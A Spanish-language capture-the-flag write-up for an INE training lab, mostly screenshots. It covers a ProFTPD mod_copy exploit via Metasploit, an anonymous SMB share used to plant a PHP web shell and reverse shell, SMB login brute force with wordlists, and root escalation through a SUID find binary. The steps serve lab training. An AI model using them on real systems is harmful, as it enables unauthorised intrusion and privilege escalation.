# Exploitation CTF 3

Two machines are accessible at **target1.ine.local** and **target2.ine.local**

- FLAG1
A vulnerable service maybe running on target1.ine.local. If exploitable, retrieve the flag from the root directory

Escaneamos el host



Vamos a buscar exploits para **ProFTPD 1.3.5**



Usamos el exploit de metasploit *unix/ftp/proftpd_modcopy_exec*



```bash
set SITEPATH /var/www/htlml
```

-> IMPORTANTE porque */var/www* viene por defecto y no es writeable

Creamos la sesión



www-data

Encontramos la flag en /



- FLAG2
Further, a quick interaction with a local network service on target1.ine.local may reveal this flag. Use the hint given in the previous flag.

Recordaremos la palabra **letmein** encontrada en la primera flag

Vamos a enumerar los servicios en red local de la máquina



Vemos el puerto 8888 levantado, vamos a ver qué es
```bash
curl localhost:8888
```

-> Nada
```bash
nc localhost 8888
```



- FLAG3
A misconfigured service running on target2.ine.local may help you gain access to the machine. Can you retrieve the flag from the root directory?



Vamos a conectarnos al smb con sesión nula



Nos conectamos a *site-uploads* pero no hay ningún contenido
```bash
smbclient //target2.ine.local/site-uploads -U Anonymous
```



Buscamos vulnerabilidades para *samba 4.6.2*
```bash
search exploit samba 4.6
```

*linux/samba/is_known_pipename*
```bash
set SMB_SHARE_NAME site-uploads
```

No funcionan a priori

Vemos que en la web está expuesto el directorio */site-uploads* en **http://target2.ine.local/site-uploads**



Subiremos una shell en php, suponemos que siendo apache interpretará este lenguaje





Vemos que se sube correctamente



Ejecutamos comandos mediante el parámetro de la URL



Vemos la flag en la raiz



- FLAG 4
Can you escalate to root on target2.ine.local and read the flag from the restricted /root directory?

```bash
find / -perm -4000 2>/dev/null
```



Vemos el binario /usr/bin/find

Podremos usar el comando find como root
```bash
find /root/flag4.txt
```



Con GTFO bins, vemos un comando para leer archivos
```bash
find /root/flag4.txt -exec cat {} \;
```



- OTRA FORMA FLAG3 y FLAG4

Usamos el exploit de metasploit
```bash
set user_file /usr/share/wordlists/metasploit/common_users.txt
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set CreateSession true
set verbose false
```



Vamos  a usar la sesión de administrator
```bash
sessions 6
```

Nos conectamos al recurso
```bash
shares -i site-uploads
```



Configuramos la shell **php-reverse-shell.php** para que nos envíe la consola hacia nuestra IP y puerto



Las subimos desde la
```bash
sessions 6
```

de smb



Ahora accederemos desde la web o con curl al archivo **pwned.php**



El listener del *exploit(multi/handler)* captará la conexión



Ya tendremos la sesión como *www-data*



Ahora sí podremos elevar privilegios con la bash interactiva
```bash
find . -exec /bin/bash -p \; -quit
```


